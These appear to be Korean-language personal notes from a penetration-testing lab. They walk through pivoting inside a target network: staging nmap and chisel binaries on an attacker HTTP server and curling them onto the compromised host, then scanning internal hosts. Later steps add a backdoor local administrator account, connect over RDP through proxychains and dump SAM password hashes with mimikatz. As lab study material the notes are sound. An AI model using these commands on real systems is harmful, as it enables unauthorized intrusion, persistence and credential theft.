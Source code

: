 
```bash title="사용 가능한 호스트 찾기"
arp -a
```


```bash title="ip 확인, 인터페이스 확인, 라우터 확인"
ip a
ip route
```


nmap 바이너리 다운로드
https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/nmap

```bash title="공격자 서버"
wget https://github.com/andrew-d/static-binaries/raw/refs/heads/master/binaries/linux/x86_64/nmap
--2025-07-08 09:41:39--  https://github.com/andrew-d/static-binaries/raw/refs/heads/master/binaries/linux/x86_64/nmap

python3 -m http.server 80
```

```bash title="Target"
curl 10.250.180.2/nmap -o nmap
```



Chisel 다운로드
https://github.com/jpillora/chisel/releases/download/v1.10.1/chisel_1.10.1_linux_amd64.gz

```bash title="공격자 서버"
wget https://github.com/jpillora/chisel/releases/download/v1.10.1/chisel_1.10.1_linux_amd64.gz   
--2025-07-08 09:46:35--  https://github.com/jpillora/chisel/releases/download/v1.10.1/chisel_1.10.1_linux_amd64.gz

gunzip -d chisel_1.10.1_linux_amd64.gz

chmod +x chisel_1.10.1_linux_amd64

mv chisel_1.10.1_linux_amd64 chisel     # 그냥 파일 이름 바꾸기

python3 -m http.server 80
```

```bash title="Target"
curl 10.250.180.2/chisel -o chisel
```



```bash title="Target"
chmod +x nmap
chmod +x chisel
```




```bash title="Target 서버에서 ip ping 스캔 (살아있는 호스트 찾기)"
./nmap -v -sn 10.200.180.0/24 --open
```
![[Pasted image 20250708225829.png]]


```bash title="살아있는 호스트들에 대해 포트스캔"
./nmap 10.200.180.100 10.200.180.150 10.200.180.250 -v -Pn -oN nmap.log -T5
```






[Windows 쉘 획득 시]
```powershell title="사용자 추가"
net user [USERNAME] [PASSWORD] /add
```


```powershell title="Administrators 그룹 할당"
net localgroup Administrators [USERNAME] /add
```


```powershell title="Remote Management Users 그룹에 추가"
net localgroup "Remote Management Users" [USERNAME] /add
```


```bash title="RDP 연결"
proxychains -q xfreerdp /v:10.200.180.150 /u:cyberbarbie /p:marksanchez +clipboard /dynamic-resolution /drive:/usr/share/windows-resources,share
```



[mimikatz]
```powershell title="실행"
\\tsclient\\share\mimikatz\x64\mimikatz.exe
```


```powershell title="해시 덤프"
privilege::debug
token::elevate
lsadump::sam
```


